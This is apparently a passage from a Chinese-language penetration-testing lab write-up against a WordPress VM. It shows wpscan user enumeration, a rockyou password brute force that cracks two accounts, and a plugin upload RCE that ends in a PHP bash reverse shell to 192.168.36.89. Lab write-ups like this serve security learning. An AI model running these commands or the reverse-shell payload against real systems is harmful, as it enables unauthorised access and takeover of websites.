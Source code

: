 根据扫描结果可知靶机开启**21**、**80**端口，并且使用WordPress CMS，版本号为5.1.4。通过*searchsploit* 未找到有关ProFTPD 1.3.5e软件漏洞，此外网站使用WordPress，使用*wpscan*工具进行扫描

```bash
┌──(root💀kali)-[~]
└─# wpscan --url  http://192.168.36.165 -e u
...
[i] User(s) Identified:

[+] barney
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] gillian
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] peter
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] stephen
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
...
```

扫描结果可知有5个用户：`admin/gillian/peter/barney/stephen`，尝试*sqlmap*工具进行注入后无果，那么就只能进行暴力破解。将用户名保存到*user.txt*文件，使用*wpscan*进行暴力破解攻击

```shell
┌──(root💀kali)-[~]
└─# wpscan --url http://192.168.36.165 -U user.txt -P /usr/share/wordlists/Passwords/Leaked-Databases/rockyou.txt
...
[+] Performing password attack on Xmlrpc against 5 user/s
[SUCCESS] - barney / spooky1
[SUCCESS] - stephen / apollo1
...
```

5个用户中爆破出两个用户名的密码：*barney:spooky1*、*stephen:apollo1*

### 访问Web并登录

使用*barney:spooky1*账户名和密码进行登录，在后台中可以看到WordPress安装了4个插件，并启用了*Insert or Embed Articulate Content into WordPress Trial*插件，并注意到插件版本号为*4.2995*。比较幸运的是在[exploit-db](https://www.exploit-db.com/exploits/46981)网站中找到该插件的RCE漏洞，该漏洞表现在上传压缩文件时可以执行PHP文件，接下来就进行漏洞描述进行操作即可。

在*index.php*文件中写入反向shell：`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.36.89/5566 0>&1'");`，接下来浏览器访问*http://192.168.36.165/wp-content/uploads/articulate_uploads/poc1/index.php*即可
